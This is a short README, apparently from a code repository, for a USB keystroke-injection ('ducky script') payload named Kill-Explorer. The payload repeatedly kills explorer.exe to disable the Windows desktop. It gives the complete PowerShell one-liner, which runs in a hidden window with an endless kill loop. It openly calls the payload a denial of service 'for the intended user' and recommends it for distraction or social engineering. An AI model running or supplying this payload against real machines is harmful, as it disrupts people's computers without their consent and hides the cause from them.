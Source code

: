 # Kill-Explorer
A ducky script that kills explorer.exe repeatedly resulting in loss of Windows Desktop functionality. The command executed is a simple Denial of Service for the intended user.
## Configuration
1. Execute on windows 10 or Windows 11.
2. Logoff or restart to reset your windows session.
## Notes
A great tool for distractions or social engineering.
## Windows Command (used in payload)
```Powershell
powershell /w 1 while($true){kill -name explorer}
```
